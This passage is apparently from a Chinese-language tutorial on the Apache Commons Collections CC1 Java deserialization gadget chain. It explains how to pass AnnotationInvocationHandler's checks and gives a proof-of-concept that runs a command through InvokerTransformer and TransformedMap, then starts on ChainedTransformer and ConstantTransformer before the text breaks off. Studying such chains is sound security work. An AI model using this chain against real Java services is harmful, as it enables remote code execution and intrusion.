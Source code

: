 得到的memberTypes组织形式类似于：`{"value":class java.lang.annotation.RetentionPolicy}`

因此欲使能通过第一个if，首先我们不能选用像Override这样的没有注解元素的注解进行传参，其次对于我们的entry，需要值与Map中已有的元素符合（例如假如我们在构造方法中传入的为Retention.class，entry的key就需要为value）同时对于已有entry的value，不能为null，这里我之前踩坑了，为null时执行后面的

```java
new AnnotationTypeMismatchExceptionProxy(value.getClass() + "[" + value + "]").setMember( annotationType.members().get(name)));
```

会报错。

而第二个判断语句实际上则是在判断当前entry的value是不是memberType的实例（假如我们之前传入的是Retention.class，那么就是判断value是不是java.lang.annotation.RetentionPolicy的实例），如果不是实例的话则可通过if判断，而这显然是肯定的，所以第二个if实际上很好满足。

```java
Object value = memberValue.getValue();
if (!(memberType.isInstance(value) || value instanceof ExceptionProxy)){
  ...
}
```

# 第二个问题

对于第二个问题，我们先来回顾下原有的POC：

```java
Runtime r = Runtime.getRuntime();
InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a Calculator"});
HashMap<Object, Object> invokerTransformerHashMap = new HashMap<>();
invokerTransformerHashMap.put("value",1);    //这里是为了符合if语句进行的修改
Map<Object,Object> transformedmap = TransformedMap.decorate(invokerTransformerHashMap, null, invokerTransformer);

for (Map.Entry entry:transformedmap.entrySet()){
  entry.setValue(r);
}
```

我们来思考下是否有可能构造出这么一个TransformedMap，可以在无视setValue传递的参数的情况下，也能正常执行命令，事实上在另外两个Transformer实现类的帮助下我们是可以实现这一目标的！

1. ConstantTransformer：该类的构造方法接受一个Object对象，并在transform方法中返回该对象

```java
public ConstantTransformer(Object constantToReturn) {
  this.iConstant = constantToReturn;
}

public Object transform(Object input) {
  return this.iConstant;
}
```

2. ChainedTransformer：该类的构造方法接受一个 Transformer[] 数组，即列表中的所有元素都要实现 Transformer 接口，同时在transform方法中会对Transformer数组中的元素按照顺序调用transform方法，同时将上一个元素的返回对象作为参数输入给下一个元素的transform方法中。
